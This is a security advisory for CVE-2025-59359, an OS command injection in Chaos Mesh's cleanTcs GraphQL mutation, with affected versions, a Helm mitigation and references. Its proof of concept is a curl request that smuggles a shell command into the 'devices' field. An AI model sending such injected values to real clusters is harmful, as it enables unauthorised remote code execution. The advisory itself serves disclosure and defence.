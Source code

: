 ```yaml
---
description: CVE-2025-59359, CRITICAL, OS command injection in Chaos Mesh via the cleanTcs mutation
title: Chaos Mesh cleanTcs command injection
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id: JFSA-2025-001449534
vul_id: CVE-2025-59359
cvss: 9.8
severity: critical
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

OS command injection in Chaos Mesh via the cleanTcs mutation

## Component

github.com/chaos-mesh/chaos-mesh

## Affected versions

(,2.7.2]

## Description

The cleanTcs mutation in Chaos Controller Manager is vulnerable to OS command injection. In conjunction with CVE-2025-59358, this allows  unauthenticated in-cluster attackers to perform remote code execution across the cluster.

## PoC

```shell
curl -X POST http://10.111.136.129:10082/query -H 'Content-Type: application/json' -d '{
    "query": "mutation MutatePod($namespace: String! = \"default\", $podName: String!, $devices: [String!]!) { pod(ns: $namespace, name: $podName) { pod { name namespace } cleanTcs(devices: $devices) } }",
    "variables": {
      "namespace": "kube-system",
      "podName": "coredns-5dd5756b68-779rm",
      "devices": ["eth0 root; touch /tmp/foo; "]
    }
  }'

```

## Vulnerability Mitigations

If upgrading Chaos-Mesh to the fixed version is not possible, re-deploy the Helm chart and disable the **chaosctl** tool and port:

```shell
helm install chaos-mesh chaos-mesh/chaos-mesh -n=chaos-mesh --version 2.7.x --set enableCtrlServer=false
```



## References

[Fix PR](https://github.com/chaos-mesh/chaos-mesh/pull/4702)

[JFrog Technical Blog](https://jfrog.com/blog/chaotic-deputy-critical-vulnerabilities-in-chaos-mesh-lead-to-kubernetes-cluster-takeover)

